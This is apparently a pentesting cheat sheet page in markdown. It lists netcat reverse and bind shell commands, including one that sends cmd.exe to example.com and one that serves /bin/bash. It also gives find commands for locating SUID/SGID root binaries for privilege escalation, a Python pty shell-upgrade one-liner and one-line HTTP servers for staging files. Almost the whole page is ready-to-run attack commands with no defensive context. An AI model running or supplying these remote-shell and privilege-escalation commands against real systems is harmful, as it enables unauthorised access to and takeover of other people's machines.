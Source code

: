 ### Window reverse shell
{% highlight bash %}
c:>nc -Lp 31337 -vv -e cmd.exe
nc 192.168.0.10 31337
c:>nc example.com 80 -e cmd.exe
nc -lp 80
 
nc -lp 31337 -e /bin/bash
nc 192.168.0.10 31337
nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000
{% endhighlight %}

### Find SUID\SGID root files
{% highlight bash %}
# Find SUID root files
find / -user root -perm -4000 -print
 
# Find SGID root files:
find / -group root -perm -2000 -print
 
# Find SUID and SGID files owned by anyone:
find / -perm -4000 -o -perm -2000 -print
 
# Find files that are not owned by any user:
find / -nouser -print
 
# Find files that are not owned by any group:
find / -nogroup -print
 
# Find symlinks and what they point to:
find / -type l -ls
{% endhighlight %}

### Python shell
{% highlight bash %}
python -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}

### Python\Ruby\PHP HTTP Server
{% highlight bash %}
python2 -m SimpleHTTPServer
python3 -m http.server
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:8888
{% endhighlight %}
